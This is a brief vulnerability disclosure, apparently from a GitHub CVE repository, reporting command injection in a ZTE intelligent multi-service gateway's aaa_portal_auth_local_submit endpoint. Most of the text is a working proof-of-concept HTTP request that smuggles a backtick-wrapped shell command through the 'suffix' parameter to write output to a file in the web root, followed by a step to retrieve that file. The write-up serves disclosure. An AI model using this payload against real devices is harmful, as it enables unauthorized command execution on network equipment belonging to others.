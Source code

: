 ZTE Wantong intelligent multi-service system has command execution vulnerability

version:v1.0

1. Impact of vulnerabilities
Intelligent multi-service gateway

2. Vulnerability location
aaa_portal_auth_local_submit

3. Code analysis
![image](https://github.com/since2019-costin/cve/assets/169053485/65f5e6d0-99af-4129-9b62-f37db306b8ac)
![image](https://github.com/since2019-costin/cve/assets/169053485/f6b3f250-c9c6-40d0-a105-3f8c1315b02a)

4. Vulnerability recurrence

   ![image](https://github.com/since2019-costin/cve/assets/169053485/8071998f-e7af-442f-b03d-7f4a7dc3472f)
Write the id command to the 1.txt file in the root directory through ``, the poc is as follows

POC
```

GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix=%60id+%3E/usr/local/webui/1.txt%60 HTTP/1.1
Host: ip:9443
Cookie: USGSESSID=454287762a807fb134c4e258bda9eccd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
Te: trailers
Connection: close
```

![image](https://github.com/since2019-costin/cve/assets/169053485/b35aae1e-1801-46d4-8327-42c295dd9eaf)

Visit/1.txt

![image](https://github.com/since2019-costin/cve/assets/169053485/3151103e-83fc-4c38-961a-71148231c0ff)

